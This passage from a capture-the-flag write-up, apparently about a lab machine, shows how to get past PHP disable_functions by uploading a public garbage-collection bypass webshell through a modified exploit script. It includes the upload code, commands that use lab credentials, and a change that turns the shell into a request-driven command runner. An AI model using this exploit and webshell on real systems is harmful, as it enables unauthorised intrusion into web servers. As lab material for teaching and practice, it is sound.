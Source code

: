 ### Path #2: Bypass disable\_functions

#### POC

I [wrote](/2019/08/02/bypassing-php-disable_functions-with-chankro.html) about [Chankro](https://github.com/TarlogicSecurity/Chankro) a while back and how it can bypass `disable_functions` in PHP. Unfortunately for this case, it [relies on](https://github.com/TarlogicSecurity/Chankro/blob/7b6e844e18f6812beb18db4b67b246edcec04b84/chankro.py#L70) `putenv` in PHP, which is listed as blocked in the `phpinfo` output. Still, there are other ways to bypass these filters. For example, something like [this](https://github.com/mm0r1/exploits/tree/master/php7-gc-bypass) to get execution. It’s a webshell that goes through a bunch of work-arounds to get execution without using any of the functions that get disabled but rather exploiting a bug in PHP. At the top of the PHP code, it calls `pwn("uname -a");`.

I’ll update the exploit script to read in and send the shell from the GitHub:

```

with open("exploit.php", "r") as f:
    exploit = f.read()

files = {
        'vqmod': (rand + ".php", exploit, "application/xml"),
        'token':one,
        'upload':(None,"Upload")
    }

```

On running it, it prints the output of `uname`:

```

root@kali# python 45267.py -t http://10.10.10.207/shop/admin/ -u admin -p 'theNextGenSt0r3!~'
Shell => http://10.10.10.207/shop/admin/../vqmod/xml/PMBX7.php?c=id
Linux compromised 4.15.0-101-generic #102-Ubuntu SMP Mon May 11 10:07:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux

```

That’s the output of `uname -a`.

#### Webshell

I’ll replace `uname` with a payload that runs based on the request:

```

#pwn("uname -a");
pwn($_REQUEST['c']);

```

I used `c` because the exploit POC uses `c` in it’s webshell. When I run this, it works:

```

root@kali# python 45267.py -t http://10.10.10.207/shop/admin/ -u admin -p 'theNextGenSt0r3!~'
Shell => http://10.10.10.207/shop/admin/../vqmod/xml/VC9II.php?c=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```
